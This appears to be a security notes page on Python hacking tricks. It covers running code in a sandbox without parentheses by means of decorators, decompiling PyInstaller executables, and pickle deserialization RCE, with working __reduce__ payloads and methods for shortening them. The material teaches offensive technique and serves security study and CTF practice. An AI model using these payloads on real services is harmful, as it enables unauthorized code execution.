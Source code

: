 ```yaml
---
description: Some tricks specific to the Python language
---
```


# Python

## Filter Bypass

If you find yourself in some sandbox, jail, or otherwise restricted environment there are a lot of tricks to get out of it.&#x20;

### RCE without parentheses

Using decorators and defined lambda functions, you can execute any code without using `(` or `)` characters. Simply the act of defining this class will execute that code in the string:

```python
code = lambda x: "import os; os.system\x28'id'\x29"

@print
@exec
@code
class a:
    pass
```

Past Python 3.9, you can even get the same code as short as this:

```python
@eval
@'__import__\x28"os"\x29.system\x28"id"\x29'.format
class _:pass
```

{% hint style="info" %}
**Note**: In the string, you can encode any other characters it doesn't accept by using `\x` hex escapes
{% endhint %}

## PyInstaller Reversing

[PyInstaller](https://pyinstaller.org/en/stable/) can create executable and shareable files from Python scripts, like Windows `.exe` files or Linux ELF files. It can also be used for malware where an attacker creates a malicious Python script and compiles it to an executable they can plant somewhere with PyInstaller. That is why Reversing such a file can be very useful, and it turns out the full source code can almost flawlessly be decompiled from such a file.&#x20;

First, you will want to extract the data from the PyInstaller executable. This can be done very easily using pyinstxtractor.&#x20;

{% embed url="https://github.com/extremecoders-re/pyinstxtractor" %}
A tool to extract contents of a PyInstaller executable
{% endembed %}

As the above repository shows in the [example](https://github.com/extremecoders-re/pyinstxtractor#example), the script generates a `[name]_extracted` folder with `.pyc` files. Among these files will be all the modules, and the main script. You will often have to guess what file is the main script, but the tool will also give "Possible entry points".&#x20;

These `.pyc` files are the compiled Python bytecode, which is not human-readable. For that, we can use [uncompyle6](https://github.com/rocky/python-uncompyle6/) to decompile this bytecode into close to the original source code.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ python3 pyinstxtractor.py example.exe
</strong>[+] Processing dist\example.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 36
[+] Length of package: 5612452 bytes
[+] Found 59 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: example.pyc
[+] Found 133 files in PYZ archive
[+] Successfully extracted pyinstaller archive: dist\example.exe

<strong>$ uncompyle6 example.exe_extracted\example.pyc > example.py
</strong></code></pre>

Then you can look at the created `.py` file to review all the source code.&#x20;

## Pickle Deserialization

[Pickle](https://docs.python.org/3/library/pickle.html) is a Python module used for serializing Python objects into raw bytes. This way they can be sent over the network, or saved in a file, and then later be deserialized to get back the original Python object.&#x20;

There is one issue, however, when this deserialized data can come from the user, they can create arbitrary Python objects. This results in a classic Insecure Deserialization vulnerability, leading to Remote Code Execution.&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>A warning from the official documentation explaining the danger of this module</p></figcaption></figure>

{% hint style="info" %}
This vulnerability has a special place in my heart, as I found it as an unintentional bug on a school assignment, and spent a lot of time and effort to try and get the most out of it. In the end, it resulted in RCE on the server, as well as on all clients that connected because the template script given was also vulnerable. You can read the whole story and learn a lot about pickle deserialization here:

{% embed url="https://jorianwoltjer.com/blog/post/hacking/getting-rce-on-a-brute-forcing-assignment" %}
Getting RCE with pickle, in **under 40 bytes** per packet, and taking over the server to also exploit clients
{% endembed %}
{% endhint %}

The basics are that you can create a Python object that executes a **system command** when pickle turns it into an object. This is done with the special `__reduce__()` method:

```python
import pickle

class RCE:
    def __reduce__(self):
        import os
        return (os.system, ("id",))
        
rce = RCE()
data = pickle.dumps(rce)
print(data) # b'\x80\x04\x95\x1d\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x02id\x94\x85\x94R\x94.'
```

This method is called when the object is deserialized, and its return value will be what it turns into. But this return value is actually a function that will be called with the arguments provided. We can provide the function `os.system` after importing it, and as the first argument give it any command we want to run.&#x20;

This is often enough, but in rare cases, you might have some restrictions on what data you can send. Maybe you need to bypass some filter or a length restriction.&#x20;

### Different Protocols

Pickle has evolved over time, with new protocols for better serializing of objects. Luckily, this protocol can be chosen by whoever creates the data, and the server deserializing it will simply recognize the protocol and switch accordingly.&#x20;

This opens up the opportunity for a few different formats that might help in whatever filter you are trying to get through.&#x20;

Using the `pickletools.dis(data)` function, we can disassemble the serialized data to better understand what each byte is doing:

```python
    0: \x80 PROTO      4
    2: \x95 FRAME      29
   11: \x8c SHORT_BINUNICODE 'posix'
   18: \x94 MEMOIZE    (as 0)
   19: \x8c SHORT_BINUNICODE 'system'
   27: \x94 MEMOIZE    (as 1)
   28: \x93 STACK_GLOBAL
   29: \x94 MEMOIZE    (as 2)
   30: \x8c SHORT_BINUNICODE 'id'
   34: \x94 MEMOIZE    (as 3)
   35: \x85 TUPLE1
   36: \x94 MEMOIZE    (as 4)
   37: R    REDUCE
   38: \x94 MEMOIZE    (as 5)
   39: .    STOP
```

This `PROTO` value represents the protocol used, and in the `pickle.dumps` method we can simply specify `protocol=` keyword argument to specify the protocol. This is a number between 0 and 5. Looking at all of these protocols the payload can get very different:

```python
protocol=0                         protocol=1 (shortest)               protocol=2                          protocol=3                          protocol=4 (default)
 0: c  GLOBAL   'posix system'      0: c  GLOBAL   'posix system'       0: \x80 PROTO    2                  0: \x80 PROTO    3                  0: \x80 PROTO    5
14: p  PUT      0                  14: q  BINPUT   0                    2: c    GLOBAL   'posix system'     2: c    GLOBAL   'posix system'     2: \x95 FRAME    29
17: (  MARK                        16: (  MARK                         16: q    BINPUT   0                 16: q    BINPUT   0                 11: \x8c SHORT_BINUNICODE 'posix'
18: V    UNICODE  'id'             17: X    BINUNICODE 'id'            18: X    BINUNICODE 'id'            18: X    BINUNICODE 'id'            18: \x94 MEMOIZE  (as 0)
22: p    PUT      1                24: q    BINPUT     1               25: q    BINPUT  1                  25: q    BINPUT   1                 19: \x8c SHORT_BINUNICODE 'system'
25: t    TUPLE    (MARK at 17)     26: t    TUPLE      (MARK at 16)    27: \x85 TUPLE1                     27: \x85 TUPLE1                     27: \x94 MEMOIZE  (as 1)
26: p  PUT      2                  27: q  BINPUT   2                   28: q    BINPUT  2                  28: q    BINPUT   2                 28: \x93 STACK_GLOBAL
29: R  REDUCE                      29: R  REDUCE                       30: R    REDUCE                     30: R    REDUCE                     29: \x94 MEMOIZE  (as 2)
30: p  PUT      3                  30: q  BINPUT   3                   31: q    BINPUT  3                  31: q    BINPUT   3                 30: \x8c SHORT_BINUNICODE 'id'
33: .  STOP                        32: .  STOP                         33: .    STOP                       33: .    STOP                       34: \x94 MEMOIZE  (as 3)
len(data)=34                       len(data)=33                        len(data)=34                        len(data)=34                        35: \x85 TUPLE1
                                                                                                                                               36: \x94 MEMOIZE    (as 4)
                                                                                                                                               37: R    REDUCE
                                                                                                                                               38: \x94 MEMOIZE    (as 5)
                                                                                                                                               39: .    STOP
                                                                                                                                               len(data)=40
```

I found in most simple cases, `protocol=1` is the shortest.&#x20;

### Replacing strings

As you might have noticed above, the `os.system` function turned into `'posix system'` for the serialized data. This is what automatically happens when you serialize data using `pickle.dumps`, but it turns out there are actually multiple ways to represent this function.&#x20;

I expected to see `os` instead of `posix`, so I tried simply replacing `posix` with `os`. This turned out to actually work! The deserializer will happily decode this to the correct function and still achieves RCE. By simply replacing this text in the serialized data, you can get rid of 3 characters:

```python
rce = RCE()
data = pickle.dumps(rce)
data = data.replace(b"posix", b"os")
print(data)  # b'\x80\x04\x95\x1d\x00\x00\x00\x00\x00\x00\x00\x8c\x05os\x94\x8c\x06system\x94\x93\x94\x8c\x02id\x94\x85\x94R\x94.'
```

### Short commands

Finally, after having the shortest possible pickle data, you need a short command to receive a shell and further explore the target. In the writeup linked above, I discover my own method to slowly write a full payload to a file and execute it in a lot of commands below 12 bytes. This was enough to bypass the 40-byte packet limit that the situation had.&#x20;

However, in the meantime, I found that this problem has been explored before. Orange Tsai made a challenge where you had to achieve full RCE commands of only 4 bytes each. The solution to this challenge is explained in [#rce-in-4-bytes](../linux/hacking-linux-boxes.md#rce-in-4-bytes "mention").&#x20;
